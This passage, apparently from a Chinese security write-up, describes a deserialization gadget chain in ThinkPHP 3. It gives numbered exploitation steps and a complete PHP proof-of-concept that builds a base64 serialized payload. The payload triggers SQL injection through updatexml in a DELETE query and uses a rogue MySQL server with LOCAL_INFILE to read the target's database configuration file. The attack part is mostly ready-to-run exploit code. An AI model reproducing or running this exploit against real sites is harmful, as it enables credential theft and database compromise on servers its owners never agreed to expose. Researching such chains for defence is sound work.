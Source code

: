 1.  通过某处 leak 出目标的数据库配置
    
2.  触发反序列化
    
3.  触发链中`DELETE`语句的 SQL 注入
    

但是如果只是这样，那么这个链子其实十分鸡肋。但是因为这里可以连接任意数据库，于是我想到了 **MySQL 恶意服务端读取客户端文件漏洞**。  
这样的话，利用过程就变成了：

1.  通过某处 leak 出目标的 WEB 目录 **(e.g. DEBUG 页面)**
    
2.  开启恶意 MySQL 恶意服务端设置读取的文件为目标的数据库配置文件
    
3.  触发反序列化
    
4.  触发链中 PDO 连接的部分
    
5.  获取到目标的数据库配置
    
6.  使用目标的数据库配置再次出发反序列化
    
7.  触发链中`DELETE`语句的 SQL 注入
    

### POC：

```
<?phpnamespace Think\Db\Driver{    use PDO;    class Mysql{        protected $options = array(            PDO::MYSQL_ATTR_LOCAL_INFILE => true    // 开启才能读取文件        );        protected $config = array(            "debug"    => 1,            "database" => "thinkphp3",            "hostname" => "127.0.0.1",            "hostport" => "3306",            "charset"  => "utf8",            "username" => "root",            "password" => ""        );    }}namespace Think\Image\Driver{    use Think\Session\Driver\Memcache;    class Imagick{        private $img;        public function __construct(){            $this->img = new Memcache();        }    }}namespace Think\Session\Driver{    use Think\Model;    class Memcache{        protected $handle;        public function __construct(){            $this->handle = new Model();        }    }}namespace Think{    use Think\Db\Driver\Mysql;    class Model{        protected $options   = array();        protected $pk;        protected $data = array();        protected $db = null;        public function __construct(){            $this->db = new Mysql();            $this->options['where'] = '';            $this->pk = 'id';            $this->data[$this->pk] = array(                "table" => "mysql.user where 1=updatexml(1,user(),1)#",                "where" => "1=1"            );        }    }}namespace {    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));}
```

### 利用过程

开启恶意 MySQL 服务器，设置读取文件为目标的数据库配置文件。

![](https://mmbiz.qpic.cn/mmbiz_png/akMib3fibarLpKUubpn8DO1RgbtohlfahoyCDS5nC7TFnHevOeI6EZQN0D93yAVoLkibnTB4HS0iaIduGbSyYuriayw/640?wx_fmt=png)

接着将 POC 中的数据库连接配置改成恶意 MySQL 服务器的 ip 和端口。

![](https://mmbiz.qpic.cn/mmbiz_png/akMib3fibarLpKUubpn8DO1RgbtohlfahoiblQCWOe9BatYUQBibnluQichNQiaQ2KQyNaOqLGRwrCic2VMmqMPF2JeXA/640?wx_fmt=png)

使用 POC 运行后的结果去触发反序列化。

![](https://mmbiz.qpic.cn/mmbiz_png/akMib3fibarLpKUubpn8DO1RgbtohlfahowT0T7WvIBAkzBGZT3SLCNEFeq1xibov6XV93Nss6lRGaicmhvtM5IjMQ/640?wx_fmt=png)
